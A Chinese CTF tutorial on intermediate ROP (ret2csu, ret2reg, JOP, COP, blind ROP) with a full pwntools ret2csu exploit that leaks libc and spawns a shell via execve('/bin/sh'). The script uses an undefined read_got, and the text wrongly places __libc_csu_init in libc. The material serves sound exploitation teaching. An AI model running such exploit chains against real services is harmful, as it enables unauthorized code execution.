



# 中级 ROP

## 概述

中级 ROP 技术是在基本 ROP 基础上的进阶，主要解决一些更复杂的场景。比如在 64 位程序中如何控制寄存器传参、在没有源码的情况下如何利用、或者在 gadgets 很少的情况下如何发挥创造力。

中级 ROP 就像是**更高级的搭积木技巧**——不仅能用现成的积木，还能把积木拆开重新组合，甚至在看不到积木的情况下盲猜积木在哪里！

---

## 中级 ROP 技术图解

### 技术对比流程图



### ret2csu 工作原理时序图



### 中级 ROP 技术思维导图



---

## 主要技术

### ret2csu

**ret2csu** 是 64 位程序中非常实用的技术，它利用 libc 中的 `__libc_csu_init` 函数来控制寄存器传参。

#### 为什么需要 ret2csu？

在 64 位程序中，函数的前 6 个参数是通过寄存器传递的：
- `RDI` - 第 1 个参数
- `RSI` - 第 2 个参数
- `RDX` - 第 3 个参数
- `RCX` - 第 4 个参数
- `R8` - 第 5 个参数
- `R9` - 第 6 个参数

问题来了：我们很难找到同时控制这么多寄存器的 gadgets！这时候 `__libc_csu_init` 就派上用场了。

#### 原理

`__libc_csu_init` 是每个程序都有的函数，它里面有两段非常有用的代码：

**第一段（控制寄存器）：**
```asm
mov rdx, r13
mov rsi, r14
mov edi, r15d
call qword ptr [r12+rbx*8]
```

**第二段（弹出寄存器）：**
```asm
pop rbx
pop rbp
pop r12
pop r13
pop r14
pop r15
ret
```

通过这两段代码，我们可以：
1. 用第二段代码从栈上弹出值到 `rbx, rbp, r12, r13, r14, r15`
2. 用第一段代码把 `r13, r14, r15` 的值分别赋给 `rdx, rsi, rdi`
3. 然后调用 `r12` 指向的函数

完美！这样我们就能控制前 3 个参数了！

#### 示例

让我们看一个完整的利用例子：

```python
from pwn import *

libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
p = process('./level5')

# 一些关键地址
write_got = 0x600a20
main_addr = 0x4005b0

# csu 的两个关键地址
csu_front = 0x400600  # 控制寄存器那段
csu_end = 0x40061a    # 弹出寄存器那段

def csu(rbx, rbp, r12, r13, r14, r15, return_addr):
    payload = b'A' * 0x80 + b'BBBBBBBB'  # 填充到 saved ebp
    payload += p64(csu_end)             # 先跳转到 csu_end
    payload += p64(rbx)                 # rbx = 0
    payload += p64(rbp)                 # rbp = 1
    payload += p64(r12)                 # r12 = 要调用的函数地址
    payload += p64(r13)                 # r13 -> rdx（第3个参数）
    payload += p64(r14)                 # r14 -> rsi（第2个参数）
    payload += p64(r15)                 # r15 -> rdi（第1个参数）
    payload += p64(csu_front)           # 跳转到 csu_front
    payload += b'A' * 0x38              # 跳过一些栈空间
    payload += p64(return_addr)         # 下一步要跳转到哪里
    return payload

# 第一步：泄露 write 函数的地址
payload = csu(0, 1, write_got, 8, write_got, 1, main_addr)
p.send(payload)
write_addr = u64(p.recv(8))
log.info(f'Leaked write addr: {hex(write_addr)}')

# 计算 libc 基址
libc_base = write_addr - libc.symbols['write']
execve_addr = libc_base + libc.symbols['execve']
log.success(f'Libc base: {hex(libc_base)}')

# 第二步：把 /bin/sh 写到 bss 段
bss_addr = 0x600b00
payload = csu(0, 1, read_got, 16, bss_addr, 0, main_addr)
p.send(payload)
p.send(p64(execve_addr) + b'/bin/sh\x00')

# 第三步：调用 execve('/bin/sh')
payload = csu(0, 1, bss_addr, 0, 0, bss_addr+8, main_addr)
p.send(payload)

p.interactive()
```

这个例子展示了 ret2csu 的强大之处！

#### 改进方法

当输入长度受限时，我们可以优化：

1. **提前控制 rbx 和 rbp** - 减少需要的输入长度
2. **分多次利用** - 一次只做一部分事情，然后让程序回到 main 继续

---

### ret2reg

**ret2reg** 是一种比较简单但实用的技术，就是跳转到 `call reg` 或 `jmp reg` 这样的指令。

#### 原理

思路很简单：
1. 找出溢出函数返回时，哪个寄存器指向我们的输入缓冲区
2. 然后找一条 `call reg` 或 `jmp reg` 指令
3. 把返回地址覆盖成这条指令的地址
4. 把 shellcode 放在那个寄存器指向的地方

这样程序执行到 `call reg` 时，就会跳转到我们的 shellcode 去执行！

---

### JOP

**JOP（Jump Oriented Programming）** 是 ROP 的变种，它不是用 `ret` 指令来串联，而是用跳转指令。

JOP 比较少见，但了解一下还是有好处的。

---

### COP

**COP（Call Oriented Programming）** 是另一种变种，它用 `call` 指令而不是 `ret` 来串联 gadgets。

---

### BROP

**BROP（Blind ROP）** 是一个非常酷的技术！它可以在没有二进制文件、没有源码的情况下进行利用。

#### 攻击条件

BROP 需要满足：
1. **程序存在栈溢出漏洞**
2. **服务崩溃后会重启，且重启后地址不变**（ASLR 开启也没关系，只要每次重启地址一样就行）

很多服务器程序都满足这个条件，比如 nginx、MySQL、Apache 等。

#### 攻击原理

BROP 的核心思想是**暴力尝试 + 观察程序行为**。

基本步骤：

1. **判断溢出长度** - 暴力枚举，看发多少数据程序会崩溃
2. **Stack Reading** - 泄露栈上的数据（canary、saved ebp、返回地址等）
3. **Blind ROP** - 暴力找 gadgets，构建 ROP 链
4. **Dump 程序** - 有了足够的 gadgets 后，把程序 dump 出来，然后就像普通 ROP 一样利用了

#### 寻找 gadgets 的技巧

在 BROP 中，我们通过观察程序的行为来判断 gadgets：
- 如果程序崩溃了 → 说明这条路径不合法
- 如果程序继续运行 → 说明这条路径可能合法

就像是**摸黑走路**——虽然看不见，但通过试探能找到路！

---

## 对比总结

让我们把这些技术做个对比：

| 技术 | 适用场景 | 难度 | 实用性 |
|-----|---------|------|-------|
| ret2csu | 64 位程序控制寄存器 | ⭐⭐⭐ | ⭐⭐⭐⭐⭐ |
| ret2reg | 有寄存器指向缓冲区 | ⭐ | ⭐⭐⭐ |
| JOP | ROP gadgets 太少时 | ⭐⭐⭐⭐ | ⭐⭐ |
| COP | ROP gadgets 太少时 | ⭐⭐⭐⭐ | ⭐⭐ |
| BROP | 没有二进制文件 | ⭐⭐⭐⭐⭐ | ⭐⭐⭐ |

---

## 学习建议

### 1. 先搞定 ret2csu

ret2csu 是最实用的中级 ROP 技术，必须掌握：
- 理解为什么需要它
- 会手写 csu 函数
- 知道如何绕过各种限制

### 2. 不要过度纠结 JOP/COP

JOP 和 COP 在实际 CTF 比赛中出现得不多，了解原理即可，不用花太多时间。

### 3. BROP 很有趣，但比较复杂

BROP 的想法非常巧妙，但实现起来比较复杂。如果你有兴趣可以深入研究，否则了解原理就行。

---

## 相关概念

- [[基本ROP]] - ROP 的基础
- [[栈溢出原理]] - 栈溢出的原理
- [[C语言函数调用栈（二）]] - 64 位调用约定

---

## 参考资料

- CTF Wiki - https://ctf-wiki.org
- BROP 论文 - Hacking Blind
- 各种 CTF 比赛的 pwn 题目

